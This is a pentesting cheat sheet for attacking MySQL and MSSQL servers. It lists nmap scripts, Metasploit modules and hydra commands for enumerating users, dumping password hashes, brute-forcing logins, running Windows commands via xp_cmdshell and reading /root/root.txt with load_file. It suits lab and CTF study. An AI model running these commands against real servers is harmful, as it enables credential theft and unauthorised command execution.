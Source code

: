 ```yaml
---
description: mysql (port 3306) ....... mssql(port 1443)
---
```


# Mysql and Mssql

## connect&#x20;

```bash
mysql -h $IP -u $username -p$password
```

## nmap

* imp cmd :&#x20;

```bash
nmap -p3306 $IP -sCV
```

* to enum other users on mysql (you'll need access & password of that user)

```bash
nmap -p3306 $IP --script mysql-users \
--script-args="mysqluser='username',mysqlpass=''"
```

* dump hashes

```bash
nmap -p3306 $IP --script mysql-dump-hashes \
--script-args="username='username',password=''"

# --script ms-sql-dump-hashes 
```

* to check all the imp variables

```bash
nmap -p3306 $IP --script mysql-variables \
--script-args="mysqluser='username',mysqlpass=''"
```

* audit the database (GOOD & IMP)

```bash
nmap -p3306 $IP --script mysql-audit \
--script-args="mysql-audit.username='username',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

* run sql query with nmap&#x20;

```bash
nmap -p3306 $IP --script mysql-query \
--script-args="query='select * from tablename;'username='username',password=''"
```

* mysql info

```bash
nmap -p$port $IP --script ms-sql-info
```

* ntlm info

```bash
nmap -p$port $IP --script ms-sql-ntlm-info --script-args mysql.instance-port=$port
```

* bruteforce ms-sql

```bash
nmap -p$port $IP --script ms-sql-bruteforce \
--script-args userdb=/path/to/users,passdb=/path/to/passwords.txt
```

* empty passwords

```bash
nmap -p$port $IP --script ms-sql-empty-password
```

* run query (ms sql) -> show logs : logins, what service are running etc.

```bash
nmap -p$port $IP --script ms-sql-query \
--script-args mssql.username='user',mssql.password='pass', \
ms-sql-query.query="SELECT * from master..syslogins" -oN out.txt
```

* run windows cmds with ms sql

```bash
nmap -p$port $IP --script ms-sql-xp-cmdshell \
--script-args mssql.username='user',mssql.password='pass', \
ms-sql-xp-cmdshell.cmd="ipconfig"
```



## metasploit / msfconsole

* to see what directories are writeable

```bash
use auxiliary/scanner/mysql/mysql_writeable_dirs
#Enumerate writeable directories using the MySQL SELECT INTO DUMPFILE

set dir_list /path/to/wordlists.txt
set rhosts $IP
set verbose false
set password $password 
#set password "" .....if empty password
```

* hashdump

```bash
use auxiliary/scanner/mysql/mysql_hashdump

set username $username
set password $password # "" if no pass/empty pass
run
```

* dictionary attack

```bash
use auxiliary/scanner/mysql/mysql_login

#for mssql
#use auxiliary/scanner/mssql/mssql_login 

set rhosts $IP
set pass_file /path/to/wordlists.txt
set stop_on_sucess true
run
```

* admin scan

```bash
use auxiliary/admin/mssql/mssql_enum

#the mssql_enum is an admin module that will accept a set of 
#credentials and query a MSSQL for various configuration settings.


#set all the required options
```

* obtain all logins

```bash
use auxiliary/scanner/admin/mssql/mssql_enum_sql_logins

#This module can be used to obtain a list of all logins from a SQL Server with any login. 
#Selecting all of the logins from the master..syslogins table is restricted to sysadmins

#set required options
```

* run commands&#x20;

```bash
use auxiliary/scanner/admin/mssql/mssql_exec

#set required options
set cmd ipconfig
run
```

* domain accounts scan

```bash
use auxiliary/scanner/admin/mssql/mssql_enum_domain_accounts

#set required options
```

##

##

##

## mysql cmds

* to load files (if we have access to)

```bash
mysql> select load_file("/root/root.txt");
```

## hydra

```bash
hydra -l $username -P /path/to/pass/wordlist $IP mysql 
```

